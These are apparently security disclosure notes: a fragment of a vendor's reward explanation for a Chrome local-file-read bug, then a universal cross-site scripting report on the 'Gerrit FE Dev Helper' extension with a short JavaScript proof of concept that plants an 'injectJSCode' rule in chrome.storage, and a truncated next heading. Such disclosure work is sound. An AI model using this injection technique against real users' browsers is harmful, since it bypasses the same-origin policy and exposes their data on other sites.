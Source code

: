 read local files by opening a downloaded html file with a renderer exploit

To perform this attack, we believe following steps are necessary.

Download a malicious HTML file.
Ask the user to right-click and click "Open Long Description In New Tab".
This opens the malicious HTML file downloaded in step #1, and it can now read other files.
This means that on top of multiple user interactions requirement in step #2, download of a malicious file in step #1 is also visible to the victim. Therefore, we believe that the likelihood of a successful attack will further decrease.

I hope this clarifies the reward decision bit more. And I would like to thank you for the report, as this is definitely a valid bug!

# UXSS using the Gerrit FE Dev Helper with a compromised renderer (Not an official Google app)

**URL:** <https://chrome.google.com/webstore/detail/gerrit-fe-dev-helper/jimgomcnodkialnpmienbomamgomglkd/>

1. Install the extension
2. Open https://example.com/
3. Open the DevTools console and select the "Gerrit FE Dev Helper" context
4. Run

```js
chrome.storage.sync.set({
  rules: [
    {
      destination: "alert(window.origin)",
      disabled: false,
      isNew: false,
      operator: "injectJSCode",
      target: "",
    },
  ],
});
// Now open a tab (https://google.com) and click the extension action icon
```

This can also be done via `chrome.runtime.sendMessage`

### Attack scenario

If the victim visits a site that has a compromised renderer (can access the content script) and enables the extension, the site will be able to bypass the same-origin policy.

This is an extension by Google intended for frontend Gerrit developers.
<https://gerrit.googlesource.com/gerrit-fe-dev-helper/>  
Unverified fix, <https://gerrit-review.googlesource.com/c/gerrit-fe-dev-helper/+/389216>

# AMP Readiness Tool (Not an official Google app)
